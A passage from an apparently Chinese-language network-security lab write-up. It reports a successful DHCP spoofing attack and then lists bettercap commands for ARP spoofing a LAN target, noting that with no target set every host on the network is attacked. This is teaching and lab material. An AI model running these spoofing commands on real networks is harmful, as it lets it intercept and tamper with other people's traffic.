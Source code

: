 - 据上述实验结果可知，*DHCP Spoofing* 攻击成功。


-------



## 4 *ARP* 欺骗攻击（*Mac* 地址欺骗攻击）

[中间人攻击之Bettercap工具使用](http://akevin.cn/index.php/archives/69/)

- 安装第 *3* 节中的方法安装好 *bettercap* 中间人攻击工具
- 首先打开 *bettercap* 的交互界面，并使用 *net.recon* 模块查看待攻击目标的 *ip* 地址
- 然后开启 *arp* 欺骗攻击：

```
sudo bettercap
net.recon on
set arp.spoof.targets 192.168.31.251
arp.spoof on
```

​		注意，若不指定攻击目标的 *ip*，则会向局域网内的所有 *host* 进行攻击

​		攻击主机的输出如下：

<img src="./cut/截屏2021-05-05 上午11.22.10.png" alt="avatar" style="zoom:30%;" />

